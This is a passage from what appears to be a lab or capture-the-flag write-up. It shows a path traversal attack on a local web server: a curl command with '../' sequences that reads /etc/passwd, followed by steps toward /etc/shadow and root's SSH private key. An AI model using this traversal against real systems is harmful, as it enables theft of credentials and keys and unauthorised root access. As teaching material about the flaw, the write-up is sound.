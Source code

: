 ![Exploit Success](./images/29.png)

#### Solution 2: Use direct command
```
curl --path-as-is http://localhost:8081/assets/../../../../../../../etc/passwd
```
This is prove that we can explore local directories, so we can try accessing `etc/shadow`

### Getting Root Access
Modify the path from `etc/shadow` to `/root/.ssh/id_rsa` or `/root/.ssh/authorized_keys` to understand what kind of ssh key is used

![Authorized keys](./images/30.png)

